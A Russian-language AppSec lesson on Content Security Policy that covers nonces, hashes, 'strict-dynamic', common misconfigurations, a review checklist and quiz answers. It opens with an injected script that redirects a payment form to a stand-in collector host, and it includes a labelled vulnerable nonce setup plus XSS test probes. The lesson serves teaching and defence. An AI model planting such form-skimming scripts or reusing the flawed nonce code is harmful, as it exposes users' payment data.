

# Content Security Policy: директивы, nonce, hash

Представьте страницу отзывов интернет-магазина с защитой от хранимого
межсайтового скриптинга (cross-site scripting, XSS). В этой атаке чужая
разметка со скриптом лежит в базе и исполняется у каждого читателя с
правами страницы. Поэтому сервер добавляет в каждый ответ поле, которое
разрешает исполнять только скрипты с одноразовым пропуском. Вот это поле в
двух ответах подряд и разметка, которая лежит в отзыве:

**Поле ответа, первый запрос**

```http
Content-Security-Policy: script-src 'nonce-r4nd0m' *.cdn.example
```

**То же поле, другой запрос**

```http
Content-Security-Policy: script-src 'nonce-r4nd0m' *.cdn.example
```

**Что лежит в отзыве**

```html
<script nonce="r4nd0m">
  /* внедрено через поле отзыва, исполнилось наравне со своими */
  document.forms.pay.action = "https://collector.example/pay";
</script>
```

Скрипт исполнился, и ни браузер, ни политика здесь не ошиблись. Браузер
сверил пропуск из атрибута скрипта с пропуском в том же поле, они совпали,
и по правилам скрипту можно. Дефект в другом: пропуск один и тот же во всех
ответах, и прочитать его хватает одного запроса к любой странице сайта.
Дальше атакующий вписывает чужое значение в свою разметку, а что меняется,
когда пропуск в каждом ответе новый, — в этом вся тема.

## Что такое Content Security Policy

Content Security Policy (CSP, «политика безопасности содержимого») — способ
страницы ограничить саму себя. Сервер добавляет в ответ поле — перечень
разрешений для документа: откуда брать скрипты, стили и картинки, какой
встроенный код запускать, кому позволено встраивать страницу. Поле ответа
вы уже встречали в теме `http-basics`: ответ состоит из строки статуса,
полей и тела, и политика — одно из таких полей.

Браузер применяет его к уже полученному документу: страница пришла целиком,
и только после этого решается, что из неё заработает. Сам документ при этом
не меняется, чужая разметка остаётся лежать в нём как лежала. Политика
решает другой вопрос — исполняться ли ей.

Именно так политика гасит XSS. Внедрение случилось, строка с чужим скриптом
попала в документ, но у скрипта нет пропуска, и браузер его не запускает.
Атака останавливается не на входе, а в самом конце — в момент, когда
браузер решает, чему из страницы можно работать. Как строка становится
скриптом, разбирает тема `xss-stored`.

Бытовая картинка здесь — пропускной режим в офисе. Компания заранее
оставляет на проходной список, кого ждать и откуда, а охранник сверяет с
ним каждого входящего. Соответствие такое:

| В офисе | В политике |
|---|---|
| Список на проходной: кого ждут и откуда | Поле `Content-Security-Policy` в ответе |
| Охранник сверяет каждого входящего со списком | Браузер проверяет каждый ресурс документа |
| Входящего впускают, если он есть хотя бы в одной строке списка | Ресурс разрешён, если он подходит хотя бы под одно выражение источника |
| Отдельные правила для посыльных, гостей и почты | Отдельные директивы для скриптов, стилей и картинок |
| Однодневный пропуск | Одноразовое значение `nonce` |
| Фотография в пропуске | отпечаток содержимого, `hash` — разбор ниже |

Где аналогия ломается. Первое: даже однодневный пропуск живёт до конца
дня, и украденный всё это время работает. Одноразовое значение умирает
вместе с ответом, и вчерашнее значение завтра недействительно. Второе:
охранник проверяет человека на входе в здание. Браузер же получает «здание»
целиком и проверяет уже внутри, поэтому чужая строка в документ попадает в
любом случае. И третье: список на проходной составляет тот, кто знает, кого
ждут. Политику пишете вы, и неточность в ней ломает страницу сразу у всех
посетителей.

Политика — список разрешений. Её ценность равна тому, насколько узок список
и насколько трудно подделать пропуск, который в списке назван. История из
начала темы — случай, когда даже узкий список не спас бы: пропуск
подделывается одним запросом.

**Зачем это в работе AppSec-инженера.** С политикой безопасности содержимого вы
скорее всего познакомились с обратной стороны: она сломала виджет, и её
расширяли, пока виджет не заработал. На ревью ту же строку читают с другого
конца — что она запрещает и запрещает ли хоть что-нибудь. Отдельный навык — не
подписать очередное расширение, которое разработчик предлагает ради работающего
виджета. Подписанное расширение отозвать труднее, чем не подписать.

## Как это работает

**Откуда это взялось.** Защита от внедрения содержимого стояла в двух местах:
проверка данных на входе и экранирование на выходе. Экранирование — замена
опасных знаков безопасными записями, после которой `<` перестаёт быть началом
тега. Оба места правильные, но работают, пока не пропущена ни одна точка вывода.

Пропущенная точка означает, что в документ попал чужой скрипт, и браузер
верит ему наравне со своим. Тогда придумали дать документу право объявить
заранее, чему он доверяет, и обязать браузер применить это объявление к уже
полученной странице. Спецификация тут же ставит границу: CSP задумана как
защита в глубину. Это второй рубеж: он держит удар, когда первый пропустил,
но первый он не заменяет.

### Как политика попадает на страницу

Основной способ — поле `Content-Security-Policy` в ответе. Поля ответа идут
перед телом, поэтому браузер узнаёт правила раньше, чем начинает разбирать
разметку.

Режим отчёта — это та же политика, но в поле
`Content-Security-Policy-Report-Only`. Браузер проверяет ресурсы по правилам
из него и шлёт отчёт о каждом нарушении на заданный адрес. При этом он
ничего не блокирует, и страница работает так, будто политики нет.

Зачем нужен такой половинчатый режим? Включить блокирующую политику на
живом сайте вслепую — значит сломать его посетителям: заранее вы не знаете,
какой виджет на какое правило нарвётся. Режим отчёта — генеральная
репетиция. Собираете отчёты и чините нарушения одно за другим. Когда отчёты
иссякли, ту же строку переносят в блокирующее поле. К этому приёму мы
вернёмся в задаче.

Второй способ доставки — элемент `<meta>` с атрибутом `http-equiv`: так
поле ответа объявляется прямо в разметке страницы. Он выручает приложение,
которое отдаётся статикой, то есть готовыми файлами без серверной сборки.
Но поддерживает он не все возможности, а режим отчёта через него не
доставляется вовсе.

### Директивы: правило для каждого вида ресурса

Политика состоит из директив. Директива — одно правило вида «для такого-то
вида ресурса разрешены такие-то источники». Директивы выборки называют вид
ресурса: `script-src` — сценарии, `style-src` — стили, `img-src` —
изображения и так далее. Особая среди них — `default-src`: она задаёт запасную
политику для всех видов, у которых своей директивы нет.

Значение директивы — либо единственное ключевое слово `'none'`, «никому»,
либо одно и больше выражений источника через пробел: имена хостов, схемы,
одноразовые значения, отпечатки. Если ресурс соответствует хотя бы одному из
перечисленных выражений, ресурс разрешён. Выражения комбинируются: одна
директива может содержать и одноразовые значения, и имена хостов.

Прочитаем эту строку по словам:

```http
Content-Security-Policy: default-src 'self'; script-src 'none'
```

Здесь две директивы. Запасная `default-src 'self'` разрешает всё со своего
origin — ключевое слово `'self'` означает «тот же origin, что у страницы»,
а origin вы знаете из темы `same-origin-policy`. У сценариев при этом своя
директива `script-src 'none'`, и она отменяет запасную именно для них:
скрипты запрещены вовсе, откуда бы они ни шли. На виды ресурса со своей
директивой `default-src` не влияет — это правило пригодится в самопроверке.
Страница со скриптами при такой политике не заработает, поэтому на деле
`script-src` сужают до конкретных пропусков, и дальше видно как.



**Описание схемы.** Схема читается сверху вниз. Сервер отправляет ответ, в
котором политика и документ приходят вместе. Браузер берёт каждый ресурс
документа и сверяет с выражениями источника его директивы. Совпадение есть —
ресурс загружается или исполняется. Совпадения нет — ресурс блокируется, а
на адрес из политики уходит отчёт о нарушении.

### Почему встроенный код — корень беды

У скрипта на странице два способа оказаться. Первый — внешний файл,
`<script src="https://cdn.example/app.js"></script>`: у такого скрипта есть
адрес, и политика решает по адресу. Второй — встроенный, или inline: код
вписан прямо в разметку между `<script>` и `</script>`, без всякого адреса.
Встроенным считается и обработчик события в атрибуте, например
`onclick="..."`.

Проблема в том, что у встроенного кода адреса нет, и по списку источников
свой и чужой не различить. Скрипт, который вы вписали в шаблон сами, и
скрипт, внедрённый через форму отзыва, для браузера выглядят одинаково —
это тег `<script>` с текстом внутри. Поэтому политика поступает жёстко:
раз отличить нельзя, весь встроенный код по умолчанию запрещён.

Ключевое слово `'unsafe-inline'`, «небезопасный встроенный», этот запрет
снимает — целиком, для всех встроенных фрагментов сразу, то есть вместе с
защитой от внедрения. Именно поэтому настройка политики обычно начинается
со сломанных виджетов: встроенный код есть почти в каждом старом шаблоне,
и политика запрещает его первым делом. Ниже — два способа разрешить свой
встроенный код, не разрешая чужой.

### Одноразовое значение: пропуск на один ответ

Первый способ — одноразовое значение, nonce (от number used once, «число,
использованное один раз»). CSP Level 3 задаёт его запись грамматикой
§ 2.3.1: `nonce-source = "'nonce-" base64-value "'"`, то есть слово `nonce-`
и случайная строка в base64 внутри одинарных кавычек. Механизм MDN описывает
так: сервер порождает случайное значение для каждого ответа HTTP. Это
значение он кладёт в директиву и в атрибут `nonce` тех элементов `<script>`
и `<style>`, которые собирался включить. В разметку значение подставляет
шаблонизатор — библиотека, собирающая страницу из заготовки. Браузер
сравнивает два значения и загружает ресурс только при совпадении.

В терминах картинки из начала темы nonce — пропуск, выписанный на один день
и на конкретного гостя. Подсмотреть его во вчерашнем журнале бесполезно,
потому что завтра в журнале другое значение. История из начала темы — это
провал ровно одного условия: значение `r4nd0m` жило в каждом ответе, и
украденный пропуск работал бессрочно.

Чем такая политика лучше политики на списке адресов. Список разрешает всё,
что лежит на доверенном узле. А на площадке доставки содержимого, то есть
сети content delivery network (CDN), обычно лежит и чужой код: разрешив
узел, вы разрешаете и его. Одноразовое значение действует точечно:
разрешён конкретный элемент конкретного ответа. Чужая строка в ответ
попасть может — она и попадает, в этом суть внедрения. Но значение
рождается при формировании ответа и непредсказуемо. Атакующий внедряет
строку заранее, будущего значения не знает и снабдить свой элемент
действительным пропуском не может.

> **Предупреждение.** Приём работает при трёх условиях сразу: значение
> отличается в каждом ответе, значение непредсказуемо, и шаблонизатор
> ставит его только своим элементам. Подстановка во все элементы `<script>`
> подряд снабдит одноразовым значением и внедрённый скрипт: он придёт в
> документ уже с атрибутом, и сверка пройдёт.

Следствие, которое обычно узнают поздно: статическую страницу с такой
политикой отдавать нельзя. Значение обязано меняться от ответа к ответу,
поэтому каждый ответ приходится собирать заново, и готовый файл из общего
кеша с одноразовым значением не уживается.

### Отпечаток: пропуск по содержимому

Вторая форма пропуска не требует пересборки ответа. В директиву кладут
отпечаток содержимого разрешённого скрипта, и браузер сверяет уже не
атрибут, а само содержимое. Отпечаток считается хеш-функцией. Это алгоритм,
который сводит вход любой длины к короткой строке фиксированного размера:
изменение одного байта входа меняет строку, а восстановить вход по строке
нельзя. Бытовой пример — отпечаток пальца: снять его с пальца — дело
секунды, восстановить по нему палец нельзя, и у другого пальца узор другой.
Аналогия ломается в точности: папиллярные узоры бывают похожими, а
отпечаток криптографической хеш-функции совпадает только на входе,
совпадающем байт в байт.

Грамматика из той же § 2.3.1: `hash-source = "'" hash-algorithm "-"
base64-value "'"`, алгоритм — `sha256`, `sha384` или `sha512`. Браузер
считает отпечаток полученного скрипта и сравнивает со значением из
политики. В отличие от одноразовых значений, и политика, и содержимое
остаются статическими, поэтому отпечатки подходят страницам без серверной
сборки. Цена написана в самом определении: поменяли запятую в скрипте —
поменялся отпечаток, и политику надо править вместе со скриптом.

### Почему 'unsafe-inline' рядом с пропуском не работает

Дальше взаимодействие, о котором спрашивают на ревью: если директива
содержит одноразовое значение или отпечаток, стоящее рядом `'unsafe-inline'`
браузер игнорирует. Это нормативный шаг, прописанный в спецификации.
§ 6.7.3.2 перебирает выражения списка источников и останавливается на первом
же, подходящем под грамматику `nonce-source` или `hash-source`. Ответ
алгоритма — «Does Not Allow». То есть весь встроенный код запрещён, сколько
бы `'unsafe-inline'` рядом ни стояло.

Зачем тогда это слово вообще пишут — ради обратной совместимости. Старый
браузер не знает, что такое одноразовое значение, увидит в строке
`'unsafe-inline'` и разрешит встроенное. Новый увидит одноразовое значение,
проигнорирует `'unsafe-inline'` и запретит всё встроенное без пропуска. Одна
и та же строка даёт старому браузеру работающую страницу, а новому —
защиту.

### Кому скрипт передаёт доверие: 'strict-dynamic'

Ключевое слово `'strict-dynamic'` передаёт доверие дальше: скрипт,
снабжённый одноразовым значением или отпечатком, получает право загружать
другие скрипты без пропусков. Это нужно загрузчикам модулей, которые
подключают код из кода, без тегов в разметке.

Нормативно это два шага. Тот же § 6.7.3.2 для типов `script`,
`script attribute` и `navigation` возвращает на `'strict-dynamic'` «Does Not
Allow» — ключевое слово отменяет `'unsafe-inline'` так же, как одноразовое
значение.

А проверки § 6.7.1.1 и § 6.7.1.2 при наличии `'strict-dynamic'`
различают, откуда скрипт взялся, и здесь важен порядок. Пропуск сильнее
происхождения: свой загрузчик вписан в разметку с атрибутом `nonce`, сверка
значения проходит, и право у него есть. Отсечка касается скриптов без
пропуска. Вписанный в документ самим разбором разметки — в спецификации это
называется `parser-inserted` — блокируется, а созданный из кода уже
доверенного скрипта разрешается. Внедрённый через уязвимость тег
`<script src="...">` под отсечку и попадает: он вписан в разметку, и
пропуска у него нет.

MDN называет цену: политика становится менее строгой, потому что
подключённый скрипт, создающий элементы `<script>` из недоверенных данных,
выводит защиту из игры. Как это выглядит в живом виде, показано в разделе
«Как это атакуют».

### Две директивы не про загрузку

Две директивы стоят особняком, потому что регулируют не загрузку ресурсов.

`frame-ancestors` перечисляет документы, которым разрешено встраивать эту
страницу во фрейм. Это защита от кликджекинга — атаки, в которой ваша
страница встроена в чужую под прозрачным слоем, и пользователь кликает не по
тому, что видит. MDN называет директиву заменой старого поля
`X-Frame-Options`: поле принимало только `DENY` или `SAMEORIGIN`, а
директива принимает список выражений источника.

`upgrade-insecure-requests` поднимает адреса `http` до `https` для загрузки
ресурсов, навигации внутри своего origin, вложенных фреймов и отправки
форм. Переходы на другой origin верхнего уровня не поднимаются. Поэтому
директива не заменяет `Strict-Transport-Security` — поле, которое велит
браузеру ходить на сайт только по `https` и которое разбирает тема
`security-headers`.

## Как это атакуют

Вернёмся к вопросу из начала темы: что меняется для атакующего, когда
пропуск в каждом ответе новый? Честный ответ — многое, но не всё. Политика
не мешает атаке в четырёх случаях, и все четыре встречаются в живых
проектах.

**Пропуск один на всех.** Если значение посчитано один раз при запуске
сервера или вписано в конфигурацию, атакующему хватает одного запроса к
любой странице сайта. Значение видно и в поле ответа, и в атрибуте любого
скрипта. Дальше атакующий вписывает тот же атрибут в свою разметку — именно
так исполнился скрипт из начала темы.

**Пропуска раздаёт шаблон.** Если шаблонизатор подставляет одноразовое
значение всем элементам `<script>` подряд, внедрённый элемент получит
пропуск наравне со своими. Сервер сам подпишет чужой скрипт, потому что в
готовой разметке не отличает его от своих.

**Доверие передано скрипту, а скрипт доверился данным.** Случай из практики
ревью. Политика содержит `'strict-dynamic'` и одноразовое значение.
Загрузчик, подписанный этим значением, читает имя модуля из адреса страницы
и подключает его. Одноразовое значение работает, политика соблюдена, чужой
скрипт исполняется — потому что доверие передано скрипту, а скрипт
доверился данным, которые контролирует атакующий.

**Атака вообще без скрипта.** Политика ограничивает загрузку ресурсов и
исполнение встроенных фрагментов, но она не мешает внедрённой строке попасть
в документ. Внедрение, которое не исполняет код, — это подмена ссылки в
отзыве, разметка поверх формы оплаты или подстановка элемента `<base>`.
Элемент `<base>` меняет базовый адрес, от которого считаются все
относительные ссылки страницы. Политикой такое внедрение не покрывается
ничем, кроме явно выставленных директив, поэтому в минимальной политике
стоит `base-uri 'none'`: она закрывает как раз `<base>`.

Отдельное ремесло — обходы правильно настроенной политики. Их разбирает
тема `csp-bypass`, там свой источник.

## Как это выглядит в коде

Ревьюер изучает, как политика собирается: текст готовой строки показывает
не всё. Три дефекта в этом фрагменте стоит найти самостоятельно, до чтения
выносок.

```javascript
// УЯЗВИМО — демонстрация, не для продакшена. Фрагмент, не исполняется
const NONCE = "r4nd0m";                                    // (1)
app.use((req, res, next) => {
  res.setHeader("Content-Security-Policy",
    `script-src 'nonce-${NONCE}' 'unsafe-inline' *.cdn.example`);  // (2)
  next();
});
// шаблон: nonce дописывается ко всем <script> документа        (3)
```

1. Значение вычислено один раз при запуске: одноразовым оно не стало.
   Достаточно один раз прочитать любую страницу, чтобы узнать его навсегда.
   Отсюда и взялся неизменный `nonce-r4nd0m` в примере начала темы.
2. Директива смешивает три вида разрешений. Подстановочный знак в имени хоста
   открывает любой поддомен площадки доставки — а на такой площадке обычно
   лежит чужой код.
3. Подстановка во все элементы подряд снабжает пропуском и тот скрипт, который
   внедрён через дефект очистки.

**Что искать глазами.** Три признака видны без запуска: значение `nonce`,
пришедшее из константы или конфигурации; подстановочный знак в списке
источников сценариев; отсутствие директив `object-src` и `base-uri`. ASVS
v5.0-3.4.3 требует минимальной глобальной политики, включающей
`object-src 'none'` и `base-uri 'none'`, и либо список разрешённых, либо
одноразовые значения или отпечатки.

> **Примечание.** Отдельно стоящее поле `Content-Security-Policy-Report-Only`
> само по себе находкой не служит: это штатный способ обкатать политику.
> Находкой его делает срок — политика, живущая в режиме отчёта год, не
> защищает ничего.

## Как защититься

Починка трогает все три дефекта сразу. Значение порождается на каждый ответ
и живёт в области видимости ответа. Директива сценариев сужается до одного
одноразового значения. И шаблон ставит значение только тем элементам,
которые собирается включить сам.

```javascript
// Исправленный вариант. Фрагмент, не исполняется.
app.use((req, res, next) => {
  res.locals.nonce = crypto.randomUUID();                  // (1)
  res.setHeader("Content-Security-Policy",
    `default-src 'self'; object-src 'none'; base-uri 'none'; ` +
    `script-src 'nonce-${res.locals.nonce}'; ` +            // (2)
    `frame-ancestors 'none'; report-to csp-endpoint`);      // (3)
  next();
});
```

Скрипт из отзыва после такой правки пропуска не получает. Значение в директиве
меняется с каждым ответом, а в разметку его ставит шаблон — только своим
элементам. Сначала ответьте себе: что именно ломается, если оставить в этой
политике `'unsafe-inline'`.

<details markdown="1">
<summary>Разбор выносок</summary>

1. Значение порождается на каждый ответ и хранится в области видимости
   ответа, а не модуля. Шаблон берёт его оттуда и ставит только своим
   элементам.
2. Список источников сценариев состоит из одного одноразового значения.
   Ничего не ломается: `'unsafe-inline'` при наличии `nonce` браузер и так
   игнорирует, поэтому строка с ним не опаснее, а бесполезнее — и вводит в
   заблуждение читателя политики.
3. `frame-ancestors 'none'` закрывает встраивание (ASVS v5.0-3.4.6),
   `report-to` называет точку приёма отчётов о нарушениях (ASVS
   v5.0-3.4.7). Имя точки объявляется отдельным полем `Reporting-Endpoints`.

</details>

**Пределы приёма.** Политика ограничивает загрузку и исполнение, но не
исправляет причину. MDN пишет прямо: установка политики не заменяет очистку
входных данных, и делать надо и то, и другое.
`'strict-dynamic'` дополнительно ослабляет её ровно настолько, насколько
доверенный скрипт готов создавать новые скрипты из чужих данных.

**Расход.** Одноразовые значения требуют серверной сборки каждого ответа и
исключают отдачу страниц из общего кеша в готовом виде. Узкая политика ломает
встроенные обработчики событий в разметке, и переписывание их на
`addEventListener` — это серия правок по всему фронтенду.

## Как убедиться, что защита работает

Политика, которую никто не проверял, может блокировать не то и пропускать не
то. Три проверки делаются руками.

Первая — одноразовость пропуска. Запросите одну и ту же страницу дважды и
сравните значения `nonce` в полях двух ответов. Совпали — значение
многоразовое, и от внедрения оно не защищает: это ровно история из начала
темы. Разные — переходите ко второй проверке.

Вторая — обкатка в режиме отчёта. Поставьте ту же строку в поле
`Content-Security-Policy-Report-Only` и соберите отчёты. Каждое нарушение из
отчёта закройте одним из трёх решений: разрешить источник, переписать код
или оставить заблокированным. Когда отчёты перестали приходить, перенесите
строку в блокирующее поле `Content-Security-Policy`. Так политика
включается, не ломая работающую страницу.

Третья — пробное внедрение на стенде. Добавьте через форму отзыва разметку
`<script>alert(42)</script>` и откройте страницу. При правильной политике
окно не появится, тег останется в разметке мёртвым грузом, а в консоли
браузера будет сообщение о нарушении политики. Если окно появилось,
одноразовое значение либо угадано, либо раздано всем элементам подряд —
возвращайтесь к первой проверке.

На ревью пройдите по списку.

1. Проверьте, что ответ содержит поле `Content-Security-Policy` с директивами
   `object-src 'none'` и `base-uri 'none'`. Проверьте, что сценарии ограничены
   одним из трёх способов — списком, одноразовыми значениями или отпечатками
   (ASVS v5.0-3.4.3).
2. Проверьте, что значение `nonce` порождается заново для каждого ответа и не
   выводится из предсказуемых данных.
3. Проверьте, что шаблонизатор подставляет `nonce` только элементам, которые
   собирается включить сам.
4. Проверьте, что в списке источников сценариев нет подстановочного знака в
   имени хоста.
5. Проверьте, что встраивание страницы ограничено директивой `frame-ancestors`
   (ASVS v5.0-3.4.6).
6. Проверьте, что политика назначает точку приёма отчётов о нарушениях
   (ASVS v5.0-3.4.7).
7. Проверьте, что режим отчёта не подменяет собой применяемую политику.

## Частая ошибка

Убеждение, которое держится дольше всего: если политика настроена строго,
очистку входных данных можно не доводить до конца. Согласны вы с ним или нет,
решите до того, как читать опровержение.

**Проверка его не подтверждает.** Политика — второй рубеж, и первый она не
заменяет. Ровно на этом убеждении и закрыли находку в примере начала темы.

Как устроено на деле. Политика ограничивает загрузку ресурсов и исполнение
встроенных фрагментов, но она не мешает внедрённой строке попасть в документ.
Цепочка рассуждения ломается именно здесь: из «чужой скрипт не исполнится»
выводится «внедрение безвредно».

Внедрение, которое не исполняет код, — подмена ссылки, разметка поверх
формы, подстановка `<base>` — политикой не покрывается ничем, кроме тех
директив, которые вы явно выставили. Поэтому в политике стоит
`base-uri 'none'` — требование ASVS v5.0-3.4.3. А случай, где код
исполняется и при рабочем одноразовом значении, разобран в разделе «Как это
атакуют»: загрузчик со `'strict-dynamic'` доверился данным из адреса.
Политика там соблюдена буквально, поэтому вывод тот же — чинить первый
рубеж.

## Попробуй сам

Возьмите любую свою страницу и доведите её до работающей политики, начав с
режима отчёта.

Из подсказок — только эта: начинайте с `default-src 'self'` и добавляйте
разрешения по одному, каждое — под конкретное нарушение из отчёта, а не под
предположение.

**Критерий выполнения.** Готова строка политики и рядом с ней список. В списке
каждое нарушение, которое вы получили в режиме отчёта, и решение по нему —
разрешить источник, переписать код или оставить заблокированным. Строка не содержит
`'unsafe-inline'` без сопровождающего одноразового значения и не содержит
подстановочного знака в именах хостов.

## Проверь себя

1. Ответ пришёл с полем.

```http
Content-Security-Policy: default-src 'none'; img-src https://cdn.example
```

   Страница подключает скрипт `https://cdn.example/app.js` и картинку
   `https://cdn.example/logo.png`. Что браузер загрузит и почему?

2. Исполнится ли этот встроенный скрипт при такой директиве?

```http
Content-Security-Policy: script-src 'nonce-a1b2' 'unsafe-inline'
```

```html
<script>alert(1)</script>
```

3. Что произойдёт: исполнится ли `<script>alert(1)</script>`, и изменит ли
   ответ пробел после `<script>`?

```http
script-src 'sha256-bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI='
```

4. Найден хранимый XSS; политика с `nonce` уже стоит. Какую починку
   выбрать?

   A. Ничего: политика с `nonce` не даст внедрённому скрипту исполниться.

   B. Заменить `nonce` списком разрешённых адресов.

   C. Чинить очистку ввода; политика остаётся вторым рубежом.

5. Возврат к теме `same-origin-policy`: что решает ограничение документа
   собственного origin сверх изоляции между origin?

6. Возврат к теме `http-basics`: почему политику в поле ответа нельзя считать
   заданной, если то же значение стоит в `<meta>`?

<details markdown="1">
<summary>Ответ 1</summary>

1. Картинку загрузит, скрипт — нет. У картинок своя директива `img-src`, и
   адрес в ней есть. Для скриптов своей директивы нет, поэтому действует
   запасная `default-src 'none'`, а `'none'` не разрешает ничего. На виды
   ресурса со своей директивой `default-src` не влияет.

</details>

<details markdown="1">
<summary>Ответ 2</summary>

2. Не исполнится. Если в директиве есть одноразовое значение или отпечаток,
   `'unsafe-inline'` игнорируется. Это нормативный шаг, а не особенность
   браузера: разбор списка останавливается на первом же выражении
   nonce/отпечатка с ответом «не разрешает» (CSP3 § 6.7.3.2). Слово остаётся
   в строке ради старых браузеров.

</details>

<details markdown="1">
<summary>Ответ 3</summary>

3. Первый исполнится, с пробелом — нет: отпечаток считается по байтам тела
   скрипта, и пробел меняет значение. Прогон:

   ```bash
   printf 'alert(1)' | openssl dgst -sha256 -binary | openssl base64
   printf ' alert(1)' | openssl dgst -sha256 -binary | openssl base64
   ```

   ```text
   bhHHL3z2vDgxUt0W3dWQOrprscmda2Y5pLsLg4GF+pI=
   PpWthAVQhisI84/daxF4UR/slLfkxcmXbOH0StZyNfo=
   ```

   Второй строки в политике нет — и браузер её не пропустит.

</details>

<details markdown="1">
<summary>Ответ 4: разбор вариантов</summary>

4. Верный вариант — C.

   A. Неверно: политика — второй рубеж. Внедрение без исполнения кода (подмена
      ссылки, разметка поверх формы) она не покрывает, а при подстановке
      `nonce` всем элементам не спасает и от скрипта.

   B. Неверно: список адресов слабее — на разрешённом хосте обычно лежит чужой
      код, — а главное, само внедрение строки в документ остаётся.

   C. Верно: политика применяется к уже полученному документу и причину не
      устраняет; очистка ввода — первый рубеж, и её чинят.

</details>

<details markdown="1">
<summary>Ответ 5</summary>

5. Изоляция между origin не мешает исполняться коду, попавшему в документ
   вашего же origin. Политика ограничивает именно его — тот случай, когда
   очистка данных не сработала.

</details>

<details markdown="1">
<summary>Ответ 6</summary>

6. Способ через `<meta>` поддерживает не все возможности, а режим отчёта через
   него не доставляется вовсе. Проверять надо ответ, а не разметку.

</details>

## Источники

1. Content Security Policy Level 3, W3C Working Draft, 13 августа 2026;
   реестр `w3c-csp3`. Разделы: § 2.3.1 грамматика выражений источника,
   § 3.2 поле `Content-Security-Policy-Report-Only`, § 6.7.1.1 и § 6.7.1.2
   проверки директив скрипта до и после запроса, § 6.7.3.2 когда список
   источников разрешает весь встроенный код, § 8.2 применение
   `'strict-dynamic'` (раздел объявлен ненормативным).
   <https://www.w3.org/TR/CSP3/>
2. «Content Security Policy (CSP)», MDN Web Docs, правка 22 марта 2026;
   реестр `mdn-csp`. Разделы: Fetch directives, Nonces, Hashes, The
   strict-dynamic keyword, Clickjacking protection, Upgrading insecure
   requests, Reporting.
   <https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP>

Каркас этапа: `owasp-asvs-5-document` (ASVS v5.0.0) — наследуется всеми темами
этапа 0.

**Скоропортящийся слой.** CSP Level 3 остаётся черновиком: набор директив и
ключевых слов в нём меняется. Способ доставки отчётов сменился при жизни
механизма — `report-uri` MDN помечает устаревшим и советует объявлять оба поля,
пока `report-to` поддержан не везде.

**Маркеры уверенности.** Статус и дата документа, грамматика `nonce-source` и
`hash-source`, назначение поля режима отчёта, положение CSP как защиты в
глубину, а не первой линии обороны (§ 1), — по спецификации (CSP Level 3,
открыта лично 2026-08-22). Отмена `'unsafe-inline'` при наличии одноразового
значения или отпечатка и оба шага про `'strict-dynamic'` — по спецификации
(§ 6.7.3.2, § 6.7.1.1, § 6.7.1.2; документ открыт целиком лично 2026-08-23,
1 010 768 байт). `frame-ancestors`, `upgrade-insecure-requests`, устройство
отчётов и цена `'strict-dynamic'` — по документации (MDN, открыта лично
2026-08-22). Требования 3.4.3, 3.4.6, 3.4.7 сверены с текстом ASVS v5.0.0
(открыт лично 2026-08-22). Сценарий во вступлении — иллюстрация: политики не
разворачивались, стенда под рукой не было. Прогон `openssl` из ответа 3
повторён 2026-10-03 (OpenSSL 3.x, без сети), вывод совпал до байта.

**Что здесь стояло до 2026-08-23.** Маркеры утверждали, что текст
спецификации за пределами § 4.5 из офлайновой среды недоступен, и потому
нормативные формулировки взяты у MDN. Это было неверно: документ открывается
целиком тем же curl с браузерным User-Agent (сложность реальна — адрес отдаёт
403 при повторных обращениях, — но вывод из неё был ложным). Ссылки на
нормативные разделы добавлены, номера сверены с черновиком от 13 августа 2026:
в нём разбор списка источников — § 6.7.3.2, а § 8.2 объявлен ненормативным,
поэтому в опору на норму он не годится.
